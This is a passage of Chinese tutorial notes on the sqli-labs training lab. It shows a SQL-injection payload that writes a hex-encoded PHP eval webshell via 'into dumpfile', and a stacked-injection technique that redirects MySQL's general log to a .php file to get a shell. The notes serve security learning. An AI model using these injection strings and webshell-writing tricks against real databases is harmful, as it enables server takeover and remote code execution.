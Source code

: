 ```python
Less-7/?id=1')) union select 1,2,0x3c3f70687020406576616c28245f504f53545b315d293b203f3e into dumpfile 'C:\\sqli-labs-master\\out_file.php' --+
```

`outfile` 和 `dumpfile` 两者有些区别：

1. 在读取内容的时候 dumpfile 只能读取一行的数据，而 outfile 能够读取多行的数据
2. dumpfile 读取内容不会去修改原始数据的格式，而 outfile 在遇到特殊格式时是会自动格式转化的，这一点在我们后续 UDF 提权中会有所体现

### 日志文件写入shell

 MySQL 5.0 版本以上会创建日志文件，可以通过修改日志的全局变量来 getshell

**开启全局日志写入shell**

1. 首先看全局日志是否开启
    
    `show variables like '%general%';`
    
2. 如下就是没开
    
    ![image.png](image%2012.png)
    
    这里有两个参数，一个是`general_log`，用来限定数据库是否会将用户的 mysql 指令操作记录写入日志文件，value 对应 ON。`general_log_file`就是日志文件的默认存储路径了
    
    那很明显这两个参数我们都需要去修改，并且要设置这些参数的值，我们还需要当前 SQL 查询支持多行查询（堆叠注入），在 php 中具体的函数就是`mysqli_multi_query`，这是一个限制很大的利用方法
    
3. 如何设置值
    
    ```python
    set global general_log = "ON";
    set global general_log_file='C:/Sql-labs/sqli-labs-master/Less-38/shell.php'
    ```
    
4. 在`Less-38`测试
    
    ```python
    /Less-38/?id=0';set global general_log = "ON";set global general_log_file='C:/sqli-labs-master/Less-38/shel.php';
    ```
    
    执行完我们再去查看`general` ，成功修改
    
    ![image.png](image%2013.png)
    